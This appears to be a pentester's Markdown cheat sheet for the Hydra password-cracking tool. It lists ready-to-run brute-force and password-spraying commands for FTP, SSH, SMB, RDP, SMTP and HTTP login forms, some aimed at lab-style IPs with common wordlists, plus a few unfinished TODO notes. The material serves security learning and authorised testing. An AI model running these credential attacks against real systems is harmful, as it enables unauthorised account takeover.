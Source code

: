 # Hydra
Hydra is a command-line password-cracking tool used to perform brute-force attacks to discover weak passwords

It supports various network protocols and applications such as:

| PROTOCOL | DEFAULT PORT | LINK |
| :----------: | :------: | :--: |
| FTP | 21 | link | 
| SSH | 22 | link | 
| Telnet | 23 | link | 
| SMTP | 25/587 | link | 
| HTTP(s) | 80/443 |link |
| SMB | 139/445 | link |
| RDP | 3389 | link |

The default port can be changed using `-s` flag.

<br>

## Modes
Hydra can be used in different scenarios:
* Password Cracking [Password Brute Force]
```console
hydra -l {KNOWN_USERNAME} -P {PASSWORD_WORDLIST} {TARGET_IP} [CUT]
```

* Password Spraying [Username Brute Force]
```console
hydra -L {USERNAME_WORDLIST} -P {KNOWN_PASSWORD} {TARGET_IP} [CUT]
```

* Username and Password Brute Force
```console
hydra -L {USERNAME_WORDLIST} -P {PASSWORD_WORDLIST} {TARGET_IP} [CUT]
```

<br>

## Protocols
Here a list of hydra commands for the most common protocols

### FTP
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_IP} ftp -f
```

### SSH
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_ID} ssh -f
```

### Telnet
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_ID} telnet -f
```

### SMTP
```console
hydra -l {EMAIL} -P {WORDLIST} {TARGET_EMAIL_SERVER} smtp -S -f
```

### SMB
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_ID} smb -f
```

### RDP
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_ID} rdp -f
```

### HTTP 
* Basic Authentication
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_ID} -s {PORT} http-head {PAYLOAD} -f
```

* Digest Authentication
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_ID} -s {PORT} http-get {PAYLOAD} -f
```

* Other Authentication
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_ID} -s {PORT} {MODULE} {PAYLOAD} -f
```

where, according to the web server authentication method:

`Module` can assume the following values:
* http-get-form
* http-post-form
* https-get-form
* https-post-form

`Payload` (argument of the module) is a three colon-delimited fields {LOGIN_FORM_LOCATION}:{REQUEST_BODY}:{FAILED_LOGIN_IDENTIFIER} where
* LOGIN_FORM_LOCATION is the path of the login form, such as /secure/login
* REQUEST_BODY is the request body the web server expected
* FAILED_LOGIN_IDENTIFIER is the error response when a login failed (exit condition)

```console
hydra -l admin -P ./rockyou.txt 10.10.10.123 -s 80 http-post-form "/login:j_username=admin&j_password=^PASS^:Incorrect username or password" -f
```

`TODO`
In case of JSON Post Authentication, we need to specify the Content-Type: application/json, maybe with the flag H=

### Post Json Authentication
application/json
hydra -l admin@juice-sh.op -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/best1050.txt 10.10.174.18 http-post-form "/rest/user/login:email=^USER^&password=^PASS^:Invalid"

# Common Credentials
```console
hydra -L /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt 10.129.95.192 -s 80 http-post-form "/:username=^USER^&password=^PASS^:Wrong Credentials" -f 
```
N.B. Hydra will ignore js tags, taking only strings (es <script>alert("Wrong Credentials")</script>)

## Flags

| OPTIONS | DESCRIPTION | NOTE |
| :------------: | :------------: | ------------ |
| -l | Username | Specifies the username to brute-force | 
| -f | Ends when succeed | The brute-force terminates when an occurrence succeeds |
| -P | Password Wordlist | Password is brute-forced using this wordlist |
| -L | Username Wordlist | Username is brute-forced using this wordlist |
| -C | User+Pass Wordlist | Unique wordlist containing username:password for every line |
| -s | Port | Specifies the port to use |
| -t | Threads | Specifies the number of thread to use | 
| -v | Verbose | Enables verbose mode | 
| -d | Debug | Enables debug mode | 
| -w | Seconds | Specifies the number of seconds to wait between requests | 
| -S | SSL | Performs a connection using SSL |


## Intercept with Proxy
Hydra requests can be inspected using Burp, in order to understand what is wrong about the request.
Hydra needs just the setup of the following environment variable

```console
export HYDRA_PROXY_HTTP=http://127.0.0.1:8080
```

[TODO]
hydra -v -V -L "users.txt" -P "passwords.txt" -s 80 architectureservice.test.com http-post-form "/api/v1/login:{\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:changeFirstName:H=Accept: application/json, text/plain, */*:H=Accept-Language: en-US,en;q=0.5:H=Accept-Encoding: gzip, deflate:H=Referer: http\://architectureclient.test.com/:H=Origin: http\://architectureclient.test.com:H=Connection: keep-alive"


hydra -v -V -L "users.txt" -P "passwords.txt" -s 80 architectureservice.tester.com http-post-form "/api/v1/login:{\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:S=firstName:H=Accept: application/json, text/plain, */*:H=Accept-Language: en-US,en;q=0.5:H=Accept-Encoding: gzip, deflate:H=Referer: http\://architectureclient.tester.com/:H=Origin: http\://architectureclient.tester.com:H=Connection: keep-alive"
